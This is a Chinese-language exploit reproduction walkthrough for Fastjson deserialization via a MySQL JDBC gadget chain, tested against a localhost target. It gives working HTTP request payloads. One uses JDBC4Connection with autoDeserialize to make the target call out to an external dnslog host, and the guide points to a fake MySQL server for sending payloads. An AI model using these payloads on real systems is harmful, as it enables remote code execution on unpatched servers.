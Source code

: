 # 0x02 利用思路
1. 发现 fastjson
2. 判断出存在 `mysql jdbc` 利用链
3. 通过dns大致判断 `gadget`
4. 存在 `cb190 gadget`
5. 利用工具封装回显的 `payload`
6. 起一个 `mysql fake server`, 发送 `payload`

# 0x03 漏洞复现
## 3.1 fastjson版本判断
```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 36

{
"@type":"java.lang.AutoCloseable"
```

![image](https://user-images.githubusercontent.com/84888757/229470031-f2af15d4-808d-424b-aa6e-55a8cbb50fae.png)

## 3.2 判断出存在mysql jdbc利用 - JDBC4Connection
```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json
Connection: close
Content-Length: 351

{"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"1268.v6840fsg.eyes.sh","portToConnectTo":80,"info":{"user":"root","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}
```

![image](https://user-images.githubusercontent.com/84888757/229470371-bca2d9a9-4984-42c0-9d38-b1504e8dca1a.png)

dnslog 平台：

<img width="986" alt="image" src="https://user-images.githubusercontent.com/84888757/229470480-ddddd8c9-3016-4062-94be-2a37ce4240c4.png">

## 3.3 通过dns大致判断gadget
1、下载 [fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server/) ，替换 `config.json` 文件如下，用于后续通过 `DNSlog` 探测服务端存在哪些类。
